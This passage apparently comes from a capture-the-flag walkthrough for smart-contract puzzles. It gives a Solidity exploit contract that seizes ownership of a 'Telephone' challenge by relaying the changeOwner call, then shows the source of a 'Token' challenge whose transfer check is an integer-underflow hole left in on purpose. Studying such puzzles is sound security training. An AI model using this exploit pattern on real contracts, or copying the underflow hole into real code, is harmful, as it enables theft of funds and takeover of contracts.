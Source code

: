 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract TelephoneExploit {
    Telephone telephone;
    
    constructor(address telephoneInstance) {
        telephone = Telephone(telephoneInstance);
    }
    
    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}
```

---

# <a name="token"></a> 5. Token
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
